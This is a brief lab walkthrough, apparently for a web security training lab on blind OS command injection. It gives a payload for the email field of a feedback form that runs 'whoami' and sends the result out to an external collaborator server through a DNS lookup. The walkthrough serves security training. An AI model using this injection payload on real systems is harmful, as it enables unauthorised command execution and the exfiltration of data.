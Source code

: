 # Lab: Blind OS command injection with out-of-band interaction

Open burp collaborator and copy the server location.

Intercept the feedback request and modify the email parameter to be ``email=||nslookup+`whoami`.<burp-collaborator-server>||`` using the appropriate collaborator url.

Forward the request and check the collaborator interactions to see that the username is included in the dns lookup.